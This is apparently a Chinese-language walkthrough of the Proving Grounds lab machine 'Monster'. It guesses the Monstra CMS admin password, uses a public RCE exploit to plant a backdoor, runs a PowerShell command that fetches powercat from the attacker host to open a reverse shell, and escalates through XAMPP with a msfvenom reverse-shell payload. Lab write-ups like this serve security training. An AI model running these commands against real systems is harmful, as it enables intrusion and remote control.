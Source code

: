 ```yaml
---
title: Proving Grounds Practice-Monster
date: 2025-9-18 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

## nmap

![image-20250918193736128](./Monster/image-20250918193736128.png)

# web服务

![image-20250918200453243](./Monster/image-20250918200453243.png)

需要添加一下域名解析到`/etc/hosts`中

```
echo "192.168.129.180 monster.pg" >> /etc/hosts
```

users界面下有两个用户，一个`admin`，一个`mike`

![image-20250918201514680](./Monster/image-20250918201514680.png)

并且右下角还有版本号，该版本存在任意文件上传漏洞**（CVE-2020-13384）**，但是需要先登录

我们使用`admin`和邮箱的前半部分(wazowski)即可登录到后台

利用网上已有的exp，会生成一个后门

[wcheng729/Monstra-3.0.4-RCE: Monstra CMS 3.0.4 Authenticated RCE via theme injection](./https://github.com/wcheng729/Monstra-3.0.4-RCE)

![image-20250918204352304](./Monster/image-20250918204352304.png)

访问后门即可命令执行，然后反弹shell就好了

![image-20250918204415196](./Monster/image-20250918204415196.png)

上传`powercat`，利用`powercat`反弹`shell`

```
cmd /c powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.222:8000/powercat.ps1');powercat -c 192.168.45.222 -p 8002 -e cmd
```

![image-20250918204717514](./Monster/image-20250918204717514.png)

# 提权

 运行`winPEASx64`发现有`httpd.exe`运行

在C盘下发现了xampp文件夹，其中的`properties.ini`是配置文件，其中xampp的版本为7.3.10-1

![image-20250918210909702](./Monster/image-20250918210909702.png)

通过搜索相关漏洞发现存在7.4.3版本的本地提权漏洞

![image-20250918210944046](./Monster/image-20250918210944046.png)

看了一下references中的文章，是要修改replace的目录，修改为恶意exe文件的目录

我们使用msfvenom生成一个恶意的exe

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.45.222 lport=8002 -f exe -o shell.exe
```

![image-20250918211013503](./Monster/image-20250918211013503.png)

然后再powershell下运行

![image-20250918211133209](./Monster/image-20250918211133209.png)

然后等待一会就可以得到本地管理员权限的shell

![image-20250918210813063](./Monster/image-20250918210813063.png)